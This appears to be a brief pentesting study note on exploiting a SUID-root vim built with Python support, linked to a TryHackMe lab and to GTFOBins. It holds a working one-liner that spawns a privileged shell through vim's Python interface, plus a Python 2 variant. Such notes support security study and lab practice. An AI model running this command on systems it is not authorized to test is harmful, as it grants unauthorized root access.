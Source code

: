 # Exploiting ViM

* **author**:: Nathan Acks
* **date**:: 2021-11-04

If ViM is SUID root *and* is compiled with Python support, it can be used for privilege escalation.

```bash
vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

NOTE: Use `:py` instead if only Python 2 is available.

* [Basic Pentesting](tryhackme-basic-pentesting.md)
* [GTFOBins: vim](https://gtfobins.github.io/gtfobins/vim/)
